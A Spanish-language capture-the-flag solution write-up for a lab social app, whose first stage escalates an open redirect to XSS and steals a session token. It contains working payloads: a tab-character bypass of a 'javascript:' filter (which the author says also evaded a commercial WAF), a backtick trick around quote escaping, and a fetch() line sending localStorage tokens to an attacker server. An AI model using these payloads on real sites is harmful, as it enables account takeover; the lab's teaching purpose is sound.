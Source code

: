 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://172.18.0.1/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://172.18.0.1/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que el token llega correctamente al servidor del atacante.

![](tokenReceived.png)

Ahora, podemos utilizar el token para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Hay que reemplazar \<FIRMA\> por la firma del token que hemos obtenido. Además, para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código.

![](localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

</details>
